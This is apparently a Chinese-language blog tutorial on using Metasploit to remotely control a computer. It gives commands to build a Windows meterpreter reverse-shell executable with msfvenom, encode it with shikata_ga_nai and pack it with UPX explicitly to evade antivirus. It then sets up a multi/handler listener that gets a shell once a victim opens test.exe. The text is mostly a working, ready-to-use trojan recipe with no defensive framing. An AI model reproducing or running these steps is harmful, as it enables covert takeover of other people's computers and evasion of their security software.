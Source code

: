 title: 使用Metasploit远控你的电脑
categories: 教程
tags: [Metasploit,远控]
date: 2020-09-15 19:31:00
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了

# 生成一个远控程序
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.exe

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```
 - 使用upx加壳做免杀处理，命令如下
```bash
#安装upx
https://github.com/upx/upx/releases/tag/v3.95
#加壳
upx -9 test.exe
```
# 开始远控
- 启动Metasploit
```bash
msfconsole
```
- 在msf下输入
```bash
use exploit/multi/handler
```
- 查看需要设置的参数
```bash
show options
```
- 设置**payload**
```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
- 设置**LHOST，LPORT**
```bash
set lhost 10.0.0.155
set lport 52130
```
- 启动程序
```bash
exploit
```
如有人打开**test.exe**，则会出现等待输入界面
```bash
meterpreter >
```
现在我们可以输入`help`来看具体可以远程做些什么了

#我是废物